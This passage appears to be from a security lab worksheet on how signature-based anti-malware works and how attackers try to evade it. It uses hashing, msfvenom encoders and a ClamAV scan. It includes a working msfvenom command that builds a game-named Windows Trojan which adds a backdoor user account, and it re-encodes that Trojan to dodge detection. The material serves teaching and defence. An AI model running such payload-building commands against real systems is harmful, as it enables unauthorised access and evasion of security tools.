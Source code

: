 ==VM: On the Kali Linux VM (the attacker)==:

Note that signature-based anti-malware, at its simplest, may simply look for an exact copy of a previously recorded malware. 

==action: One way to check if a file matches another is using one-way hash functions. Run:==

```bash
sha256sum myGame.exe
```

The output is a hash that represents the exact contents of myGame.exe, any slight change to the file will result in a completely different hash.

Think about how this relates to the challenges facing signature-based anti-malware products.

## Evading anti-malware using encoding and EXE templates {#evading-anti-malware-using-encoding-and-exe-templates}

Note that there are lots of different ways of encoding the same computer instructions, and clever tricks can be used to obfuscate code. Therefore, we can re-encode our payload so that the file is different, yet results in exactly the same behaviour. This approach can be used to fool many forms of signature-based anti-malware.

*Polymorphic malware* is malware that uses these techniques to avoid detection, by storing the payload in a re-encoded format, and may include code to “decrypt” the original payload while it is running.

The msfvenom command can be used to re-encode payloads.

==action: List the encode options available:==

```bash
msfvenom -l encoders
```

==action: To re-encode the payload, run:==

```bash
msfvenom -p windows/adduser USER=leeds PASS=L33d583ck377 -e x86/shikata_ga_nai -i 7 -f exe > myGame2.exe
```

> Note: The e-flag specifies the encoder to use, the \-i flag indicates the number of times to encode (in this case, 7), and the f-flag sets the desired output format.

Again, you can use different options if you wish, you can check options using the "--list-options" flag.

==action: Generate a hash of this re-encoded version of our Trojan:==

```bash
sha256sum myGame2.exe
```

Note, that the hash is different, meaning the two files do not match. Yet they achieve the exact same thing.

==action: Now run "clamscan" again to see if the re-encoding allows it to slip by this malware detection==. You may notice that the file is still listed as FOUND and the number of infected files is greater than zero. This means that ClamAV is still detecting the malware, despite our effort to disguise it. 
